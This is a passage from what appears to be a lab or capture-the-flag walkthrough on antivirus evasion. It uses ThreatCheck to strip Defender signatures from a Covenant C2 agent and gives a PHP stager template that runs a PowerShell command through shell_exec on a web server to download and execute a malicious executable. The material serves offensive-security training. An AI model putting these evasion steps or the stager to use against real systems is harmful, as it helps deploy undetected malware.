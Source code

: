 Once added, we can build our agent again and test against ThreatCheck again.

![img](./assets/qPW35Nb.png)

The output above has two signatures attached. Use your knowledge of HTTP requests and responses to break the signature.

You will also notice a `GUID Type` signature. Use your knowledge of C# from Task 6 along with RastaMouse's guide to break this signature and create a clean grunt.

You will have to repeat this process of going back and forth between  ThreatCheck and the source code until you have a clean agent that evades detections.

If successful, you will now have a clean tool or payload that evades Defender.

# AV Evasion Wrapping the burrito                            

Now that we have a working executable that can bypass  anti-virus, we need a way to execute it. We know that web servers cannot execute applications, so we will need to write a PHP wrapper to download and execute our code for us.

We will be using a template payload/wrapper that we can use to deploy PowerShell commands on the remote server for this task. This will allow us to download and execute our malicious application. Find the source  code for the template below.

```php
<?php
  function compile_stager() {
    $init = "powershell.exe";
    $payload = ""; // Insert PowerShell payload here
    $execution_command = "shell_exec";
    $query = $execution_command("$init $payload");
    echo $query; // Execute query
  } 

  compile_stager();
?>
```
